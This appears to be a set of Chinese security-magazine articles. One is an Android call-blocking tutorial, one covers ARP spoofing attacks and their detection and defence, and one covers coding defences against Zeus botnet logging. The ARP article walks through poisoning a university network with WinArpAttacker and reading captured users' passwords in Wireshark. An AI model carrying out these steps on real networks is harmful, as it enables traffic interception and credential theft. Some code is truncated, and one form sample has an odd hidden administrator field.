到 Sun 官方网站 `http://java.sun.com/javase/downloads/index.jsp` 下载 JDK（1.5 以上版本，Java 开发工具包）然后安装。安装完成后，将 Java 的安装根目录配置为环境变量 JAVA_HOME，并在 Path 环境变量中添加 `%JAVA_HOME%\bin`、`%JAVA_HOME%\lib\dt.jar` 和 `%JAVA_HOME%\lib\tools.jar`。

### 2. 安装 SDK

到 Android 官方网站下载 SDK，也可由 `http://dl.google.com/android/android-sdk-windows-1.6_r1.zip` 下载。解压文件到指定目录，该目录即作为 Android 的主目录。将 Android 主目录下的 tools 目录添加到 Path 环境变量。打开命令行工具输入 `android -h`，测试 Android SDK 是否配置成功。

### 3. 安装 Eclipse

到 Eclipse 官方网站 `http://www.eclipse.org/Downloads` 下载 Eclipse 3.4.2 版（低版本缺少 plugin，后续步骤可能会出现问题）。解压缩后即可直接使用。

### 4. 安装 ADT 插件

ADT 是用于开发 Android 应用程序的 Eclipse 插件。我们采用离线安装的方式。到 Google 官方地址 `http://dl-ssl.google.com/android/ADT-0.9.6.zip` 下载 ADT 离线包。打开 Eclipse，按以下步骤安装 ADT 插件。

- 选择 `Help > Software Updates...` 菜单。
- 在出现的窗口中单击 `Available Software` 标签。
- 点击右面的 `Add Site...` 按钮。
- 在弹出的输入框中点击 `Archive...` 按钮。
- 在弹出窗口中找到下载的 ADT 离线包，点击 `OK` 按钮。
- 在 `Available Software` 标签将会出现一项刚才输入的文件地址，展开它之后选中前面的复选框，然后点击窗口右面的 `Install` 按钮，安装 ADT 插件。
- 安装完成后重新启动 Eclipse，选择 `Window > Preferences` 菜单。Preferences 窗口中若出现 Android 项，说明安装成功。
- 在 Preferences 窗口左面选择 Android 项，在右边的 `SDK Location` 输入框中输入 SDK 的根目录，然后单击右下角的 `OK` 按钮。至此开发环境基本搭建完成。

为了测试编写好的程序，我们还需创建 AVD。Android Virtual Device（Android 模拟器）在 Android SDK 1.5 版本后的 Android 开发中必须至少创建 1 个 AVD。打开 Eclipse，按以下步骤创建 AVD。

- 选择 `Window > Android SDK and AVD Manager` 菜单。
- 在打开的 Android SDK and AVD Manager 窗口左侧选择 Virtual Devices，然后点击窗口右侧的 New... 按钮。
- 在弹出的窗口中输入 AVD 的名字并选择需要的 Android 版本，然后点击 Create AVD 按钮。
- AVD 创建成功并出现在列表中。

这样，整个 Windows 下的 Android 开发环境就搭建完成了。

- 打开 Eclipse，选择 `File > New > Project` 菜单。
- 选择 `Android > Android Project`，然后点击 Next 按钮。
- 在 Content 中选择 Project：
  - 首先选择 Create new project in workspace，以创建一个新的工程，输入工程的名字、程序的名称、base package 的名字、Activity class 的名字来创建一个 stub.java 文件。
  - 其次选择 Create project from existing source，可以从现有代码创建一个工程。通过这种方式，你可以编译运行 SDK 里面 sample 的应用程序。sample 应用程序在 SDK 安装目录下的 samples/ 中，找到包含现有代码的路径并点击 OK 按钮。如果路径中含有一个有效的 Android 的 manifest file，ADT 插件就会加载包名、程序名、activity 名。
- 点击 Finish 按钮，ADT 插件会根据工程的类型创建以下合适的文件夹和文件：
  - `src/` 文件夹（包含 stub java activity file）。
  - `res/` 文件夹（包含资源文件）。
  - `AndroidManifest.xml`（工程的 manifest）。

至此我们已经可以用 Eclipse 来开发 Android 应用程序了。

## 开发手机来电防火墙，在技术上最主要有以下几个问题需要解决：

- 监控手机来电状态。来电防火墙要能够快速捕获到来电信息，判断来电状态。在这里就是要判断是否有电话打进来。可以通过使用电话服务（TelephonyManager）对象监听来电状态。来电可分为三种状态：CALL_STATE_RINGING 来电响铃，CALL_STATE_OFFHOOK 摘机，CALL_STATE_IDLE 挂机。我们可以在获得 CALL_STATE_RINGING 来电响铃状态时，激活黑名单判断和拒接来电。
- 获得来电号码。有电话进来之后，如何获取来电号码并与需要拒接的黑名单号码比较，如是黑名单来电则挂断拒接，否则不做任何操作。
- 拒接来电功能。调用挂断电话的函数实现来电拒接的功能。这个看似简单只需调用一个 API 就能完成的功能，但由于在 Android 1.1 版本后 Google 已经把该 API 隐藏掉，因此实现起来还比较麻烦。需要通过 AIDL（Android 远程方法）调用隐藏 API 来实现。

要实现监控手机电话状态的功能，需用 PhoneStateListener 对象，创建对象的代码如下：

```java
TelephonyManager tm = (TelephonyManager) getSystemService
    (Context.TELEPHONY_SERVICE);
MyPhoneCallListener myPhoneCallListener = new MyPhoneCallListener();
// 设置电话状态监听器
tm.listen(myPhoneCallListener,
    PhoneStateListener.LISTEN_CALL_STATE);
```

创建完成 PhoneStateListener 对象后，重写其中 `onCallStateChanged()` 方法，通过传入的 state 状态判断来电状态。要取得手机电话状态，需要拥有读取电话状态的权限（`Android.permission.READ_PHONE_STATE`），否则即使程序写好了也获取不到状态。此外，要使用 PhoneStateListener，在 Activity `onCreate()` 时，需取得系统中的 TelephonyManager 服务 `getSystemService(Context.TELEPHONY_SERVICE)`，通过 `getSystemService` 取得 TelephonyManager 对象，再向 TelephonyManager 注册 PhoneCallListener，注册时传入 PhoneCallListener 类及要监听的事件名称，因所监控的是电话状态，引入事件便是 LISTEN_CALL_STATE。在被重写的 `onCallStateChanged()` 方法里，传入 state（状态）及电话号码（incomingNumber）。在获得来电铃声事件中，incomingNumber 即为来电的电话号码。该功能主要代码如下：

```java
/* 新增的 PhoneStateListener */
exPhoneCallListener myPhoneCallListener = new exPhoneCallListener();
/* 取得电话服务 */
TelephonyManager tm = (TelephonyManager)
    this.getSystemService
    (Context.TELEPHONY_SERVICE);
/* 注册 Listener */
tm.listen(myPhoneCallListener,
    PhoneStateListener.LISTEN_CALL_STATE);
/* 内部 class 继承 PhoneStateListener */
public class exPhoneCallListener extends PhoneStateListener
{
    // 重写 onCallStateChanged 当状态改变时
}
```

```java
public void onCallStateChanged(int state, String incomingNumber) {
    switch (state) {
        case TelephonyManager.CALL_STATE_IDLE:
            // 空闲状态
            myTextView1.setText("CALL_STATE_IDLE");
            break;

        case TelephonyManager.CALL_STATE_OFFHOOK:
            // 接起电话时
            myTextView1.setText("CALL_STATE_OFFHOOK");
            break;

        case TelephonyManager.CALL_STATE_RINGING:
            // 电话进来时
            myTextView1.setText("CALL_STATE_RINGING");
            if ("333333".equals(incomingNumber)) {
                // 电话 333333 时挂断
                try {
                    iTelephony.endCall();
                } catch (RemoteException e) {
                    e.printStackTrace();
                }
            }
            break;

        default:
            break;
    }
    super.onCallStateChanged(state, incomingNumber);
}
```

```java
this.getSystemService(Context.TELEPHONY_SERVICE);
// 初始化 iTelephony
Class<TelephonyManager> c = TelephonyManager.class;
Method getITelephonyMethod = null;
try {
    getITelephonyMethod = c.getDeclaredMethod("getITelephony", (Class[]) null);
    getITelephonyMethod.setAccessible(true);
} catch (SecurityException e) {
    e.printStackTrace();
} catch (NoSuchMethodException e) {
    e.printStackTrace();
}

try {
    iTelephony = (ITelephony)
        getITelephonyMethod.invoke(tManager, (Object[]) null);
} catch (IllegalArgumentException e) {
    e.printStackTrace();
} catch (IllegalAccessException e) {
    e.printStackTrace();
} catch (InvocationTargetException e) {
    e.printStackTrace();
}
```

最后挂断只须调用 iTelephony 的 `endCall()` 函数即可。

对于挂断电话，本来是一个很好实现的功能。可惜 Android 新发布的版本中没有提供简便的挂断 API，这些 API 被隐藏了，程序不能直接使用。想要调用 Android 中隐藏的 API 有两种方法，一种是在编译后的源码中提取该隐藏类所在的 jar 包，然后导入项目中调用；二是从编译前的源码中提取相应的 Java 类，将其包含在项目中使用。我们通过以下方法来实现。

- 在 `src` 下新建一个包：`com.android.internal.telephony`（和 `ITelephony.aidl` 中 `package` 声明的包名一样）。
- 然后从系统源码中把 `ITelephony.aidl` 文件拷贝到 `com.android.internal.telephony` 包下。也可以先新建一个 `ITelephony.aidl`，然后再把内容拷贝进去（该方法适合没有 SDK 源码文件的开发者）。
- 在 `src` 下新建一个包：`android.telephony`，然后新建一个 `NeighboringCellInfo.aidl`，其内容为：

```aidl
package android.telephony;
parcelable NeighboringCellInfo;
```

- 从私有方法中获取 `ITelephony`，代码如下。

```java
tManager = (TelephonyManager)


```

至此程序关键代码已经编写完毕，一个 Android 下的简单来电防火墙程序的框架就实现了。现在我们在 Android 模拟器中运行该程序以检验实际效果。在 Eclipse 中选中项目，点击右键后选择 `Run as > Android Application`。稍作等待就会出现 Android 模拟器的界面。等待模拟器启动完成后我们可以看到程序界面，说明程序已经运行起来了。下面要做的事就是向模拟器打电话，看看我们的来电防火墙是否能够将指定号码（为了方便，程序中直接写入的号码是 333333）的来电自动拒接。向模拟器打电话有两种方式，一种是利用 DDMS 中的 Emulator Control 来拨打；另一种方式是在 CMD 下利用 telnet 来模拟拨打电话。连接 `telnet localhost 5554` 后可进入 Android 模拟器控制台。

commands OK。接着我们就可以模拟电话打入了。输入 `gsm call <模拟打进的电话号码>`。如：`gsm call 12345678`，模拟器上即会显示出来自 12345678 号码的电话呼叫。如图 1 所示：

在模拟器中运行我们编写的程序，分别以不同的电话号码向模拟器拨打电话，可以看到如图所示的来电画面；而当来电号码为我们程序中设定的 333333 时，模拟器无反应，没有出现任何来电画面，这说明来电已被挂断，程序功能实现正常。

文中的程序只是实现了一些手机来电防火墙的最基本功能，其中黑名单没有使用文件存储，是直接写在代码中实现的。还有诸如程序界面美化等各方面问题，有感兴趣的朋友可以继续完善。
图 1

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：无
- 关键词：ARP，攻击，防御

## ARP 欺骗攻击及其检测与防御
文 Supriya Gupta 译 小小杉

以太网构建由 1500 个字节的块组成的数据帧。每个以太网数据帧头包括源 MAC 地址和目的 MAC 地址。构建以太网数据帧，必须从 IP 数据包开始。但在构建过程中，以太网并不知道目标机器的 MAC 地址，这就需要创建以太网头。唯一可用的信息就是数据包头中的目标 IP 地址。对于特定主机的数据包传输，以太网协议必须利用目标 IP 来查找目标 MAC 地址。这就是 ARP 地址解析协议。ARP 用于定位与特定 IP 地址相关联的以太网地址。

地址解析协议（ARP 协议）是 RFC826 文档中定义的 TCP/IP 标准。ARP 协议使用基于 TCP/IP 协议的软件将 IP 地址解析为局域网硬件使用的媒体访问控制地址，即 MAC 地址。ARP 协议发送 ARP 数据包请求，ARP 则询问如下问题：“你的 IP 地址是否是 x.x.x.x？如果是，请将你的 MAC 地址返回”。这些数据包被广播到局域网中所有的计算机。每台计算机都会检查该 ARP 请求，以确定其 IP 地址是否相同，并返回包含 MAC 地址的 ARP 应答包。

为了减少 ARP 广播请求的数量，操作系统会保存一份 ARP 应答包的数据缓存。在发送广播请求之前，发送请求的计算机要确保数据是否在 ARP 缓存中。如果是，则不需要广播 ARP 请求，就可以完成。检查 Windows、UNIX 或 Linux 操作系统中的缓存，必须使用 `arp -a` 命令（如图 1 所示）。ARP 表中条目通常保留一定时间，在超期后将再次通过发送 ARP 应答被添加进来。当计算机接收到 ARP 应答时，则用新的 IP/MAC 对更新 ARP 缓存。

### ARP 欺骗攻击

ARP 是无状态的协议。如果操作系统在没有发送请求的情况下得到应答消息，那么大多数操作系统都会更新其缓存。由于没有任何验证机制，网络上的任何主机都可以向目标主机发送伪造的 ARP 应答，这样目标计算机就会将原本发送给计算机 B 的数据帧，发送给计算机 A。如果处理得当，计算机 A 并不会发现该变化过程。用伪造的条目更新目标计算机 ARP 缓存的过程被称为“中毒”。通常，攻击者将其 MAC 地址与另一节点的 IP 地址（默认网关）关联在一起（如图 2 所示）。该 IP 地址（默认网关）的任何通信都会被错误地发送给攻击者。然后攻击者就可以选择性地将数据流量转发至真正的默认网关，或者在转发前修改数据。攻击者还可以通过制造拒绝服务攻击，将不存在的 MAC 地址与受害主机默认网关的 IP 地址关联。
图 1
图 2

伪造的 ARP 响应将会被定期地发送至受害主机，并且相比受害者主机上的 ARP 缓存条目的超时周期，欺骗响应的周期更短。这将确保受害者主机绝不会向那些攻击者模仿其 IP 地址的主机发送 ARP 请求。

### ARP 攻击嗅探

嗅探机制捕获网络中来自单一机器的所有或部分通信流量。地址解析协议（ARP）中毒用于嗅探主机间的通信流量，如图 3 所示。攻击者用主机 B 的 IP 地址和 MAC 地址向主机 A 发送伪造的 ARP 数据包。攻击者还用主机 A 的 IP 地址和攻击者的 MAC 地址向主机 B 发送伪造的 ARP 数据包，那么主机 A 和主机 B 的所有通信都会流向攻击者，这样攻击者就可以嗅探数据，而不是直接攻击受害主机。由于恶意用户扮演在两个目标主机之间传输的角色，所以该攻击也称之为“中间人”攻击。
图 3

### MAC 洪水攻击

这是另一种嗅探方法。该 MAC 洪水攻击针对网络交换机的 ARP 缓存中毒技术。当某些交换机超负荷运行时，则需要经常切换至“集线器”模式。在该模式中，交换机无法保证端口安全性，并且会将所有的网络通信广播至每一台计算机。通过向交换机 ARP 表发送大量伪造的 ARP 应答，制造洪水攻击，攻击者就可以重载交换机，并且当交换机处于集线器模式时，进行数据包嗅探任务。

### 广播

通过将目标地址设置为“FF:FF:FF:FF:FF:FF”，即广播 MAC 地址，数据帧可以被广播到整个网络中。通过用伪造的 ARP 应答加载网络，该应答将网关的 MAC 地址设置为广播地址，所有的通信数据都将被广播，从而进行嗅探攻击。

### 拒绝服务攻击

用不存在的 MAC 地址更新 ARP 缓存，将导致数据帧的丢失。例如，攻击者可以发送一个 ARP 应答，其将不存在的 MAC 地址与网络路由器的 IP 地址关联起来。然后，计算机就认为它们将数据发送到了默认网关，但实际上却将数据发送到了本地网络中不存在的地址。

### 劫持攻击

连接劫持攻击允许攻击者使用与中间人攻击相似的方法，控制两台计算机之间的连接。这种控制权的转移导致任何类型的会话都将被转移。例如，在目标计算机以管理员身份登录至远程计算机以后，攻击者可以控制一个 Telnet 会话。

### ARP 攻击实验方法

以下是 Jammu 大学的无线网络实验中进行的实验。选用网络中的 IP 地址 172.18.223.213 和 MAC 地址 00-21-00-59-1E-0F 作为实验节点，默认网关的 IP 地址是 192.170.11，其 MAC 地址是 00-0D-ED-6C-F9-FF。该实验检查名为 SniffLan 的 ARP 欺骗攻击。为了将攻击者的 MAC 地址与默认网关的 IP 地址关联起来，实验中伪造的 ARP 数据包都被广播到局域网内所有计算机的 ARP 表中。因此，任何指向网关地址的通信都将被错误地发送给攻击者。当进行攻击时，网络嗅探活动就可以确保攻击者查看所有目标计算机正在查看的信息和内容。

- 1. 第一步就是激活攻击者机器上的嗅探程序来捕获所有指向其的通信数据，这样数据包内容就会被检查。作者使用开源的数据包分析器 Wireshark（1.2.8 版本）进行分析。Wireshark 捕获网络数据包，并尽可能详细地显示数据包内容。它能够捕捉来自许多不同类型网络媒体的数据，包括无线局域网，当然这依据设置情况而定。Wireshark 安装在被选作攻击者（172.18.223.213）的节点上。假设其为机器 A，安装 Wireshark。安装 Wireshark 的步骤如下：  
  1) 从网址 http://www.wireshark.org/download.html 下载 Wireshark 的安装程序包。  
  2) 在选择面板上选择将要安装的组件。  
  3) 如果 WinPcap 没安装的话，在 WinPcap 的页面中安装 WinPcap。  
  4) 点击安装 Wireshark。

设置 Wireshark 来捕获数据包，使用 Wireshark 捕捉数据包步骤如下：  
1) 正确选择捕获数据包的网络接口。在“捕获”菜单中选择“接口”，以显示接口列表。  
2) 点击右侧接口上的开始按钮启动捕获操作，或者单击选项进行更多的设置。  
3) 在捕获过程中，作者使用了如图 4 所示的设置。  
4) 点击开始，启动捕获操作。
图 4

2. 在第二个步骤中，为了欺骗所有计算机的 ARP 表，必须将攻击者 MAC 地址和默认网关的 IP 地址关联起来，这样该网关的任何通信都被错误地发送至攻击者。用于显示并进行测试操作的工具是 WinArpAttacker（3.50 版本）。WinArpAttacker 能够扫描数据，并显示局域网上活动主机的程序，同时能够收集局域网上的所有数据包。在机器 A 上也安装了该工具。WinArpAttacker 基于 WinPcap 工具，因此在 WinPcap 安装之前，必须安装 WinArpAttacker。

### 设置 WinArpAttacker

- （1）运行 WinArpAttacker.exe 程序。  
- （2）点击“选项”菜单进行相关配置，如选择网络接口、攻击执行的时间、是否选择自动扫描、保存 ARP 数据包以便于进一步的分析以及使用代理等等设置。  
- （3）点击扫描按钮，然后选择高级选项。在扫描对话框中对活动主机扫描整个局域网，或者选择一定范围的 IP 地址进行扫描。作者选择的 IP 范围 172.18.223.0 至 172.18.223.254（包括攻击者主机在内）。由于局域网上攻击行为的危险性，该 IP 地址范围可以降低对子网节点的影响。  
- （4）点击 arpatack 按钮选择 snifflan，同时 ARP 欺骗攻击将被启动。  
- （5）现在所有主机之间和网关间的通信都能被 Wireshark 所捕获。一旦发起攻击，就会发送 gratuitous ARP 应答（gratuitous ARP，用来探测网内是否有机器和自己的 IP 冲突，或者用来更新工作站的 ARP 缓存）。图 5 给出了详细的 ARP 应答报文。尽管没有发送 ARP 请求，但当接收到 ARP 响应时，网络上所有设备都会更新其 ARP 缓存，即用攻击者的 MAC 地址代替网关的 MAC 地址。因此发送给网关的通信就会到达攻击者主机。图 6 显示 ARP 欺骗攻击之后，攻击者接收的数据包。  
- （6）分析数据包：一旦捕获通信数据，那么就必须检查数据包内容，以查看像密码、编码之类的信息。右键点击需要被分析的数据包并选择“跟踪 TCP 数据流”。图 7 显示了 Jammu 大学的无线网络用户的密码。
图 5
图 6
图 7

### ARP 欺骗技术的发展和检测技术

众所周知，在不影响工作效率的情况下，很难解决 ARP 缓存中毒问题。唯一可行的防御方法就是使用静态 ARP 表项。为了防止欺骗攻击，ARP 表必须为网络上的所有机器分配静态表项。部署这些表项以及保持正常使用的开销太大，并不现实。众所周知，如果有些操作系统接收到 Gratuitous ARP 数据包，那么这些操作系统就会覆盖静态 ARP 表项。此外，这也会妨碍使用 DHCP 配置，因为该配置会频繁改变 MAC/IP 关联数据。另一个有效方法是端口安全机制，即端口绑定或 MAC 绑定。端口安全机制可保持交换机 MAC 表不变，除非由网络管理员手动执行。但其并不适用于大型网络，或是使用 DHCP 的网络。下一步将讨论其他各种 ARP 欺骗的预防机制和检测技术。

### 防御技术

- 1. 安全地址解析协议：Bruschi、Ornaghi 和 Rosti 推荐了一个 ARP 安全版本，该 ARP 中每个主机都有一对公有/私有密钥，由局域网中的受信任方（扮演认证机构的角色）所认证。为了防止欺骗信息的注入，信息由发送方进行数字签名。它提供了一个永久性解决 ARP 欺骗的方法，但其最大的缺点是需要对所有主机的网络协议栈进行修改。此外 S-ARP 使用数字签名算法（DSA），这将导致额外的加密计算开销。Goyal 和 Tripathy 建议修改基于数字签名组合机制之上的 S-ARP，以及基于散列链的一次性密码技术（为了认证 ARP 的 <IP, MAC> 映射）。该方案基于与 S-ARP 相似的架构，但却更加巧妙地使用加密技术。  
- 2. TARP：Lootah、Enck 和 McDaniel 展示了基于 Ticket 的地址解析协议（TARP），该协议为加入网络的客户端实现了分布式集中生成的 MAC/IP 地址映射 attestation 机制，即所谓的门票。主机用请求的 IP 地址发送应答消息，同时附上之前获取的 Ticket，Ticket 上的签名证明本地票务代理（LTA）已经将其发行。发送请求的主机接收 Ticket，并用 LTA 的公钥进行验证。如果签名有效，地址关联将得到认可；否则，将被忽略。随着 TARP Ticket 的使用，攻击者就无法成功地伪造 TARP 的应答，因此就不能使用 ARP 中毒进行攻击。但缺点是实现 TARP 机制的网络很容易受到两类攻击：活动主机模拟攻击和通过 Ticket 进行的拒绝服务攻击。此外，只要 Ticket 有效，攻击者就可以通过欺骗其 MAC 地址并应答被捕获的门票消息，进而模拟受害主机。  
- 3. 部署虚拟专用网络（VPN）来进行身份验证，同时传输数据的客户端对网关的安全机制也提供了部分解决方案。尽管网络受 VPN 保护，攻击者仍可以通过基于 ARP 的攻击对通信进行重定向并被动地监视通信，但其只能访问加密的数据流。尽管通过将伪造的数据注入客户端的 ARP 缓存，攻击者仍然能够制造拒绝服务攻击，但是数据泄露（compromise）的问题将不存在。  
- 4. 使用中央 ARP 服务器：Taibat 建议使用改进的 ARP 技术，该 ARP 的请求数据包并不广播，而是单播至 ARP 服务器。该服务器将获得所有连接至网络主机的 <IP, MAC> 映射集。这大大降低了 ARP 信号传输和处理的开销。为了获得所有主机的 <IP, MAC> 映射，网络中所有主机之间通信数据包都被监听，并且这些数据包试图建立基于传输于主机和 DHCP 之间的 DHCP 消息的 ARP 表。但是为防止机器 IP 地址的变化，并防止更新 ARP 缓存，就必须对 DHCP 消息进行不断扫描。其主要缺点是，如果网络没有启动 DHCP，就无法捕获任何主机的 <IP, MAC> 映射。

### 检测技术

- 1. 请求应答不匹配算法：在该算法中，嗅探器监听 ARP 数据包，并保存由 MAC 地址作为 key 的等待请求表。如果匹配的应答超时到达，表中的表项将被删除。如果表中没有与应答匹配的请求，那么就要通知管理员。该算法在小型网络中运行较好，但在大型网络中，这种算法可能会被误认为攻击。  
- 2. 被动检测技术：在该技术中，网络上的 ARP 请求/应答被嗅探，用于构建一个 MAC 地址到 IP 地址映射数据库。如果未来 ARP 通信映射表出现变化，那么就会发出 ARP 欺骗攻击的警报。该类别中最常用的工具是 ARPWATCH。该被动式检测技术的主要缺点就是学习地址映射与随后的攻击检测之间的时间延迟。倘若启动检测工具之前发生 ARP 欺骗攻击，该工具将在其 IP 地址映射数据库中学习伪造的应答。  
- 3. 主动检测：Ramachandran 和 Nandi 提出了一个主动检测 ARP 欺骗的技术。基于主机网络栈的正确行为准则（当接受数据包时），将过滤不一致的 ARP 数据包。然后将一个 TCP SYN 包发送给主机进行验证。由于欺骗检测引擎没有接收到任何针对该 SYN 数据包的 TCP 响应数据包，因此能够识别接收到的 ARP 响应报文的真实性。人们认为该技术比被动式技术更加快速、智能化，并具有较强的可扩展性和可靠性。  
- 4. 通过 SNMP 检测交换机：Carnut 和 Gondim 使用路由器检测 ARP 的不稳定性，如那些通过端口的 ARP 数据包。该路由器由 SNMP 管理框架提供，包含许多流向交换机的输入输出数据包和字节。由于攻击者几乎重复了所有流经接收端口的数据包，因此数量上基本相当。那些最不稳定的发射器主机决定了候选攻击者的身份，并且那些接收未应答数据包的主机决定了候选受害者的身份。该算法很容易实现，但是当在真实网络环境中测试时，其误报率非常高。

### 小结

本文详细描述了 ARP 攻击方法。所有推荐的检测和防御方法具有不同的应用范围和其局限性：要么不安全，要么对系统性能有无法接受的缺点。同时本文也提出了解决问题的技术，其能够协助安全向导选择用于构建安全局域网的合适解决办法。

**前置知识：** 无

**关键词：** 无

## 一种防御僵尸网络攻击的编码方式
文 Fabian Rothschild 译 小小杉

僵尸网络，是指采用一种或多种传播手段，迫使大量主机感染 bot 程序，从而在控制者和被感染主机之间所形成的一个一对多控制网络。其最主要的特点是可一对多地执行相同的恶意行为，比如可以同时对某目标网站进行分布式拒绝服务（DDoS）攻击，同时发送大量的垃圾邮件等。而正是这种一对多的控制关系，使得攻击者能够以极低的代价高效地控制大量资源为其服务。虽然僵尸网络已经存在很多年，并不是一个新鲜术语，但近年来无论是僵尸网络数量，还是借助此网络实现的各种恶意操作都在快速增长。尤其在金融领域，它们常用来实施金融诈骗以及各种洗钱活动，如 Zeus bot（具备在合法用户正常登录网络银行时盗取你的账号及密码，并立刻通过即时通讯工具传送到 ZeuS Bot 的幕后操纵者）。

本文专注于如何编写一个抵御僵尸网络的代码，并使其运行在受感染的客户端主机上。通过理解并破坏僵尸主控机进程，我们可以挫败它们收集到的各种信息，针对的目标主要是 Zeus botnet。

### 僵尸网络主控机行为

僵尸网络控制者能有效地利用运行着的 victim 主机实施未授权操作，如窃取银行账户信息等。僵尸网络存在一个典型的生命周期（传播、感染、指挥与控制和攻击），在周期内从受感染主机中窃取信息，并通……过各种途径向需求者出售各种可能的信息，如信用卡号、登录凭证等。僵尸网络除了获取各种金融数据信息外，还可从受感染主机中收集各种有效信息，如用户名、密码、Cookies 以及各种通过 POST 方式提交的表单参数。图 1 给出了一个僵尸网络在有效周期内记录的存储过程：（1）感染（2）在 Server 主机上记录 victim 数据（3）获取日志信息。
图 1  僵尸网络生命周期内活动

受感染的主机会被命令控制服务器（C&C Server）控制，根据 C&C 发出的命令及时做出响应，如回传 victim 主机信息等。最简单的 C&C Server 可以仅仅是由 PHP 实现的一个应用程序，用来管理僵尸网络活动。C&C Server 也可支持后端数据库访问方式，对收集到的数据进行简单分析。从 victim 主机收集的信息通常以明文文本日志方式返回，故主控机可使用样式匹配和简单的数据挖掘技术获取有效信息。

### 抵御僵尸网络编码方法

编码抵御僵尸网络的目的是使用它自己的工具和技术以期破坏主控机收集日志行为。我们的方法基准是尽可能地使主控机收集日志的过程复杂化。对 Zeus 进行实验发现，存储在 C&C Server 数据库内的信息十分巨大，使其从海量数据中提取敏感信息的可能性变得极为复杂。显然，若攻击者很难借助 C&C Server 提炼出有效的敏感数据，将会有效地降低从事偷窃与买卖资料的热情。而且数据收集复杂化以及数据质量低效化也会极大地挫败投资商投资构建僵尸网络的兴趣。

当日志数据以 raw 形式存在时，C&C Server 将很难找到身份信息（用户名、密码、信用卡号等）。主控机只能利用数据挖掘技术从日志文件中萃取敏感数据。如：搜索“用户名”和“密码”变量的组合特征值，或者搜索一些常用变量名，如银行应用程序常使用的信用卡名 cc_number 等。

在继续讨论部分破坏技术之前，有必要阐述一下安全 Web 通信 HTTPS 的影响性。HTTPS 并不能抵御恶意软件的非法安装，如 Zeus 感染。事实上，在数据真实发送到网络线路上之前，Zeus 已经通过窃取数据破坏了加密过程。

这种窃取类型包括键盘记录器以及在内存中破坏加密函数功能等。Zeus 类型的僵尸网络仅仅窃取 victim 以 POST 方式提交的请求数据，并不关心 GET 请求。利用 Zeus 僵尸网络的这个特点，我们可以借助 GET 请求传递加密密钥以及破坏函数。通过这种方式，我们可以在 Zeus 眼皮底下为浏览器增加新功能以实现破坏日志的目的。

为了迁移僵尸网络感染方式，我们设计了不同的编码方式，下面将这个过程分为几个不同的级别以便区分。在每个级别，本文将会讨论记录器的影响以及日志的存储，其主要目的是破坏数据的记录和日志的提取。

### 基础预防

这种防御主要是过滤身份实体或其他敏感信息的变量名，使主控机获取到的信息价值较低。僵尸网络会时刻在各受害主机 victim 上提取大量的信息，设法改变收集到的数据有时是一个很大的挑战。主控机获取实体身份时间越短，则将其转化为现金速度越快。在 C&C Server 上会开启多个线程快速匹配各种关键字变量，如“Username”“Password”。

为了躲避这种简单的搜索匹配，银行 Server 端可采取任意字符命名，只要银行方能够理解变量的含义即可。因为传统的僵尸网总会去搜索匹配一些常用的变量用词，如“CVV”“Username”“Password”“Address”等。这种随意规则的命名方式，可有效地阻碍僵尸主控机进行简单搜索匹配。如表 1 所示，用户名输入域被命名“ALH84001”，密码域为“NASA_AMS”。

| 表1 | 示例表单字段混淆 |
|---|---|
| username | ALH84001 |
| password | NASA_AMS |

```html
<form>
  <input type="text" name="ALH84001" />
  <input type="password" name="NASA_AMS" />
  <input type="hidden" name="access_level" value="administrator" />
  ...
</form>


```

表 1

### 中级预防

利用 JavaScript 函数通过引入后缀、前缀以及混淆 Zeus 僵尸网络未记录的 GET 请求，实现变量名篡改。这种手法使得我们能利用 JavaScript 文件向客户端传递混淆函数，并在僵尸网络日志内不留下任何痕迹。当受感染用户点击 submit 按钮向主控机传递消息时，所有表单参数会被 GET 请求传送的混淆函数进行混淆加工处理，然后转成一个隐藏域；同时清空其他表单域值或者赋值错误的数据，并发送正常的 POST 请求。此时虽然 Zeus 仍然会记录所有提交的数据，但数据已经提前混淆化或被篡改。

银行 Server 端为了正确获取客户端提交的数据，也必须对混淆后的数据进行解析。基于这个原因，我们需要对银行 Server 端增加计算负荷能力，如图 2 所示。
图 2  Client 端与 Server 端把数据混淆与解析过程

参数上附加前缀、后缀方式实现客户端参数混淆，简单代码示例如表 2 所示。

```javascript
function postfix(param){
  var extra="00000";
  return param+extra;
}
function prefix(param){
  var extra="00000";
  return extra+param;
}
```

表 2

由于银行 Server 端可提供混淆处理函数，并能动态变化，而且函数还可从一个巨大的库函数中随意提取，随机地选择混淆函数实现数据的模糊化，主控机将无法有规则地转译出有效信息。例如，可使用以下正则表达式实现替换，“5==#”“2==%”……此时我们已经有了一些混淆函数，需要在表单提交时派上用场，需确保混淆代码在 onclick 事件触发时运行。表 3 给出了数据混淆的 JavaScript 函数。

上述正则表达式的替换运行使得主控机很难解析混淆后的数据，但对于银行 Server 端而言，则只是一个正则表达式的简单替换而已。

```javascript
function mangle(param){
  // regex replacement for the numbers 5 and 2
  var RegExp1=/5/g;
  var RegExp2=/2/g;
  var replacement1="#";
  var replacement2="%";
  param=param.replace(RegExp1,replacement1);
  param=param.replace(RegExp2,replacement2);
  return param;
}

function changepost(){
  // get form data and mangle payload
}
```

表 3

### 高级预防

运用带时延的 AJAX 函数动态生成表单元素，并在 POST 请求里使用对称加密函数加密处理。进一步，还可伪造一个后提交函数，在真实数据内夹杂伪造数据，使 C&C 数据库日志很难理解。然而，银行 Server 端因为事先就知道混淆函数及各种变换规则，故可轻易地过滤出伪造数据，并成功解密数据，下面将给出具体实现方式。

- 1. 带时延的 AJAX 请求——无日志方式。
- 2. 使用 AJAX POST 请求方法混入伪数据。

若我们编写带时延且动态产生表单元素的 AJAX 请求，则 Zeus 僵尸并不会产生日志。显然，在没有产生日志的情形下，键盘记录器 keylogger 则无法收集数据，C&C Server 更是无法从 victim 主机提取数据。表 4 给出了一种动态产生表单元素的方式，并借助 AJAX 请求，将其发送到银行 Server 端。此实验是笔者在分析 Zeus bot 时发现的……我们提出两种技术以增加日志分析障碍。

```javascript
function send_post(){
  var params="...";
  var postvar="...";
  // input parsing
  var http = new XMLHttpRequest();
  http.open("POST", url, true);
  http.setRequestHeader("Content-type","application/x-www-form-urlencoded");
  http.onreadystatechange=function(){
    if(http.readyState==4 && http.status==200){
      window.location="index.php";
    }
  };
  http.send(params);
}


```

表 4

